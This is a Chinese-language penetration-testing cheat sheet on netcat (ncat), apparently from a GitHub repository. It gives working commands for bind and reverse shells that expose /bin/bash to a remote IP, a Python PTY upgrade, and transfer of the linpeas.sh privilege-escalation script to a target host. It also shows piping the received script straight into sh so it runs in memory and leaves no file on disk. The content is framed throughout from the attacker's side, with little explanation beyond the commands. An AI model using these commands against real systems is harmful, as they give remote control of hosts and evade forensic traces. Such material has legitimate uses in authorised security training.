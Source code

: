 # 渗透常用命令之nc

    远程`SHELL`可以使攻击者跨网络执行`SHELL`命令。以小巧实用而著名的网络工具`nc`可以快速的提供远程`SHELL`和文件传输功能。

> 此次演示使用的程序为`ncat`，不同的版本命令可能会有差别

## 一、远程SHELL

    因为防火墙或者`NAT`的存在，通常导致无法在外部主动连接目标主机。根据攻击者所在位置，选择使用正向`SHELL`还是反向`SHELL`。

### 1. 正向shell（Bind shell）

靶机将`SHELL`绑定至本地端口，以供攻击机远程访问。靶机监听，攻击机主动连接靶机的称为正向`SHELL`。

> 攻击机位于局域网，靶机位于公网

![Bind.png](https://github.com/khdxs7/steps-img/blob/main/BindShell.png)

- 靶机监听端口
  
  ```bash
  nc -lvp 8888 -e /bin/bash
  ```

- 攻击机发出连接
  
  ```bash
  nc -v 106.000.000.100 8888
  ```

- 攻击机生成`PTY SHELL`（可选）
  
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  ```

### 2. 反向shell（Reverse shell）

攻击机将`SHELL`绑定至本地端口，以供靶机远程访问。攻击机监听，靶机主动连接攻击机的称为反向`SHELL`。

> 攻击机位于公网，靶机位于局域网

![Reverse.png](https://github.com/khdxs7/steps-img/blob/main/ReverseShell.png)

- 攻击机监听端口
  
  ```bash
  nc -lvp 8888 
  ```

- 靶机发出连接
  
  ```bash
  nc -v 106.000.000.100 8888 -e /bin/bash
  ```

- 攻击机生成`PTY SHELL`（可选）
  
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  ```

## 二、文件传输

> 文件传输演示的网络环境为：攻击机位于局域网，靶机位于公网。

### 1. 文件上传（File upload）

将脚本文件`linpeas.sh`从攻击机上传到靶机。

- 靶机监听端口，并将输出重定向到文件`linpeas.sh`
  
  ```bash
  nc --recv-only -lvp 8888 > linpeas.sh
  ```

- 攻击机连接靶机端口，将输入重定向到文件`linpeas.sh`
  
  ```bash
  nc -v --send-only 106.000.000.100 8888 < linpeas.sh
  ```
  
  > 靶机可以通过管道将脚本内容直接传入`shell`。在内存中运行脚本，不会在硬盘中留下任何文件。
  > 
  > - 靶机
  >   
  >   ```bash
  >   nc --recv-only -lvp 8888 | sh
  >   ```
  > 
  > - 攻击机
  >   
  >   ```bash
  >   nc -v --send-only 106.000.000.100 8888 < linpeas.sh
  >   ```

### 2. 文件下载（File download）

将脚本文件`linpeas.sh`从靶机下载到攻击机。

- 靶机监听端口，并将输入重定向到文件`linpeas.sh`
  
  ```bash
  nc --send-only -lvp 8888 < linpeas.sh
  ```

- 攻击机连接靶机端口，将输出重定向到文件`linpeas_download.sh`
  
  ```bash
  nc -v --recv-only 106.000.000.100 8888 > linpeas_download.sh
  ```
